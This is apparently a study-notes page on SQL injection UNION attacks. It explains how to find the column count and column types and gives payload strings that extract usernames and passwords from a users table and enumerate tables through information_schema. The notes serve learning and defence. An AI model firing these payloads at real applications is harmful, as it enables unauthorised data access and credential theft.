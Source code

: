 ### Retrieving data from other database tables with UNION query
For UNION query, 2 conditions must be met

1. The individual queries must return the same number of columns
```
> Determinining the number of columns with ORDER BY query
> submit a query " ' ORDER BY 1-- "
> increment the index until the database returns an error
> the error would be something like "The ORDER BY position number 3 is out of range of the number of items in the select list."
> now an attacker would know there are only two columns that is being returned for the application


> determining the number of colums with UNION SELECT query
> submit a query " ' UNION SELECT NULL,NULL-- "
> if the number of nulls does not match the number of columns, the database returns an error
> the error would be something like "All queries combined using a UNION,  INTERSECT or EXCEPT operator must have an equal number of expressions in their target list."
> if the number of nulls mathes the number of columns, the database could return an additional row in the response

> determining the number of columns with UNION SELECT query
> submit a query " -1 UNION SELECT 1,2,3,4-- -"
> increment the index until the database returns an error
> the error would be something like "The ORDER BY position number 3 is out of range of the number of items in the select list."
```

2. the data types in each column must be compatible between the individual queries
```
> determining the data types of each column by adding string value in UNION SELECT query
> submit a query " ' UNION SELECT 'a',NULL,NULL,NULL-- " if the number of columns returned are four
> for int data type it would be " ' UNION SELECT 1,NULL,NULL,NULL-- "
> if data type of a column is not compatible with the declared data type, a database error will occur
> the error is "Conversion failed when converting the varchar value 'a' to data type int." or "Conversion failed when converting the int value '1' to data type varchar"
```
### SQL injection UNION attack
> first, determine how many columns are returned from the original query
> next determine what data type each column holds
> only then, an UNION attack can be carried out
> assume that we want to retrieve the username and password from the users table
> submit a query: ' UNION SELECT username,password FROM users-- 
> observe the application's response and the data is successfully retrieved

### Examining the database in SQL injection attacks
#### Listing database contents on non-Oracle databases
Determine how many columns are returned from the original query
```
' UNION SELECT NULL,NULL--
```
Determine what data types each column holds
```
' UNION SELECT 'a','a'--
```
Get table names
```
' UNION SELECT table_name,NULL FROM information_schema.tables--
```
Get column names
```
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
```